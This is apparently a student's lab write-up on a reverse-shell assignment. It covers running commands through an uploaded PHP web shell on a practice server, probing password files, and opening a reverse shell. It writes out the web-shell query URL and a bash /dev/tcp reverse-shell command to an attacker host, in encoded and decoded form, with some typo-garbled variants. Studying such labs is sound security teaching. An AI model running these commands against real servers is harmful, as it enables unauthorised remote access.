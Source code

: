 # Reverse Shell Assignment

## PART 1

A. We can execute the command whoami using the PHP shell script we uploaded the the '/uploadedimages/' endpoint earlier. We do this by sending a request to 'http://danger.jeffondich.com/uploadedimages/my-php-scrupt.php?command="whoami"'. That this does is it sends a query parameter named command with a value of whoami. Our uploaded script uses this query parameter and executes the command on the host machine. Because we wrap the PHP command in the '<pre>' tag the exact output of the command is returned. 
The result of the command is www-data which is the traditional user for web applications.

B. The pre tag means that what ever is inside should be formatted exactly as given. Without this we would not see the expected formatting of a terminal command output. In the case of the whoami command the output is the same but depending on the output it might not be readable. 

## PART 2

A. The danger website is located in ~/var/www/danger.jeffondich.com/

B. One way to tell is through the uploadedimages directory. As we are uploading with our names, listing out out the contents of the directory allows you to see a number of users.

C. No we do not have access to this file. If we did, this would be where system passwords are stored. It would contain human readable information about userId and mappings to passwords if not sensitive.

D. No we do not have access to this file. In this file content is not human readble and it usually where programs will store hashed passwords. 


E. In the root directry of the webserver I found a file called 'youwontfindthiswithgobuster' 

## PART 4

A. Once the webshell is set up I can simply run the ifconfig command and see the ip address is 192.168.64.2. To get the IP address before the reverse shell is set up I would need access to the kali machine to run this command. In the case it has a domain I could also run a DNS lookup of the domain name. 

B. My IP address is 172.20.10.7 I found this by running 'ipcondif getifaddr en0'. We should use the host IP in this case. (Why)

C. I choose 5000

D. 

E. Yes. We can run specific commands to figure out the local of the connection for instance 'ifconfig', in this case we see the IP matches the Kali intance.

F. The % in the URL are denoting URL encoded information. For the given long url what we are doing is running the 'bach -c "bash -h >& /dev/tcp/host_ip/host_port/ 0>&1' in which we ran in the last excersise. In this case we do not need to run this command on the kali machine as this command is being run through the reverse shell we created with the PHP script.

G. In this case the following is happening. Lets assume that we already have the reverse shell PHP script installed in the /var/html/ directory and the apache server is running on port 80. When we initiate the http request we are sending the command 'command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/YOUR_HOST_OS_IP/YOUR_CHOSEN_PORT%200%3E%261%22' to the PHP shell script. This is decoded to the command 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"' and is run on the kali machine. This command now forwards the result of the bash command to the /dev/tcp/act_IP/act_port/ folder. This sends the information in the folder through the TCP connection to the corresponding ip and port. Our attacking machine is listening to this port meaning that we now created a reverse shell through the PHP script placed in the web server.
(On plane so cannot provide diagram)

